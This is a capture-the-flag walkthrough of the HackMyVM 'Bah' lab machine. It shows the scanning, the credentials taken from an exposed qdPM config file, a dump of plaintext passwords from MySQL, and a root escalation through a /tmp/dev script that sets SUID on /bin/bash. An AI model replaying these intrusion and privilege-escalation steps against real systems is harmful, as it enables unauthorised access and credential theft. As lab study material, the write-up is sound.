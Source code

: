 | Name | Difficulty | OS    | Target IP     | Link                                            |
| ---- | ---------- | ----- | ------------- | ----------------------------------------------- |
| Bah  | Easy       | Linux | 192.168.0.207 | https://hackmyvm.eu/machines/machine.php?vm=Bah |
### ARP Scan

```bash
garffff@garffff:~/hackmyvm/bah$ sudo arp-scan -l | grep 48       
192.168.0.207	08:00:27:1c:30:48	PCS Systemtechnik GmbH
```

### Nmap Scan - TCP

```bash
garffff@garffff:~/hackmyvm/bah$ sudo nmap -p- -sV -sC 192.168.0.207 -oA nmap/bah.tcp
Starting Nmap 7.80 ( https://nmap.org ) at 2024-10-31 12:22 GMT
Nmap scan report for 192.168.0.207
Host is up (0.000081s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: qdPM | Login
3306/tcp open  mysql   MySQL 5.5.5-10.5.11-MariaDB-1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.5.11-MariaDB-1
|   Thread ID: 32
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, Support41Auth, FoundRows, IgnoreSigpipes, ODBCClient, SupportsTransactions, Speaks41ProtocolOld, Speaks41ProtocolNew, InteractiveClient, SupportsLoadDataLocal, SupportsCompression, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, LongColumnFlag, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: MXQoZTtlCGyNZX.v/#aA
|_  Auth Plugin Name: mysql_native_password
MAC Address: 08:00:27:1C:30:48 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.50 seconds
```

Port 80

![[Pasted image 20241031122323.png]]

Found an exploit for qdPM version 9.2

![[Pasted image 20241031122438.png]]

Navigating to URL: `http://192.168.0.207/core/config/databases.yml`, this gave me a username and password for the local database

![[Pasted image 20241031122422.png]]

As MySQL is exposed, we can log into MySQL database service using the provided creds:

```bash
garffff@garffff:~/hackmyvm/bah$ mysql -h 192.168.0.207 -u qpmadmin -pqpmpazzw
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 43
Server version: 10.5.11-MariaDB-1 Debian 11

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| hidden             |
| information_schema |
| mysql              |
| performance_schema |
| qpm                |
+--------------------+
5 rows in set (0.003 sec)

MariaDB [(none)]> 
```

Looking in the hidden database, two tables that might be of interest::

```bash
MariaDB [(none)]> use hidden;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [hidden]> show tables;
+------------------+
| Tables_in_hidden |
+------------------+
| url              |
| users            |
+------------------+
2 rows in set (0.001 sec)
```

Users table:

```bash
MariaDB [hidden]> select * from users;
+----+---------+---------------------+
| id | user    | password            |
+----+---------+---------------------+
|  1 | jwick   | Ihaveafuckingpencil |
|  2 | rocio   | Ihaveaflower        |
|  3 | luna    | Ihavealover         |
|  4 | ellie   | Ihaveapassword      |
|  5 | camila  | Ihaveacar           |
|  6 | mia     | IhaveNOTHING        |
|  7 | noa     | Ihaveflow           |
|  8 | nova    | Ihavevodka          |
|  9 | violeta | Ihaveroot           |
+----+---------+---------------------+
9 rows in set (0.001 sec)
```

URLs table. 

```bash
MariaDB [hidden]> select * from url;
+----+-------------------------+
| id | url                     |
+----+-------------------------+
|  1 | http://portal.bah.hmv   |
|  2 | http://imagine.bah.hmv  |
|  3 | http://ssh.bah.hmv      |
|  4 | http://dev.bah.hmv      |
|  5 | http://party.bah.hmv    |
|  6 | http://ass.bah.hmv      |
|  7 | http://here.bah.hmv     |
|  8 | http://hackme.bah.hmv   |
|  9 | http://telnet.bah.hmv   |
| 10 | http://console.bah.hmv  |
| 11 | http://tmux.bah.hmv     |
| 12 | http://dark.bah.hmv     |
| 13 | http://terminal.bah.hmv |
+----+-------------------------+
```

I took this table and added to my host file and visited each site individually to see if i can get a hit. I got a hit for http://party.bah.hmv/:

![[Pasted image 20241102104841.png]]

Username and password is: `qpmadmin:qpmpazzw`, which was reuse from the database.yaml file:

![[Pasted image 20241102105252.png]]

Looking at the home directory, we see our potential second user `rocio`:

![[Pasted image 20241102105403.png]]

If we refer back to the list of users we have previously obtained, we see a match for user rocio:

```bash
rocio:Ihaveaflower
```

We can switch to the new user and obtain the first flag:

![[Pasted image 20241102105635.png]]

Looking at the usual places and using various enumeration scripts, I couldn't find anything.

Using `PSPY64` i did see this entry:

![[Pasted image 20241102105821.png]]

This line appears to show the most interesting details:

```bash
-s/:LOGIN -s /devel:root:root:/:/tmp/dev                                         
```

A service is being setup on the `devel` path as root:root: and appears to execute what is in the `/tmp/dev` file.

I will create this file and save it to that location

```bash
#!/bin/bash
chmod u+s /bin/bash
```

And make it executable:

![[Pasted image 20241102110828.png]]

Navigating to the `devel` location:

![[Pasted image 20241102111126.png]]

Going back to the original browser, we can now see the SUID bit has been set on bash, and now we can load bash as the root user and obtain the root flag:

![[Pasted image 20241102111230.png]]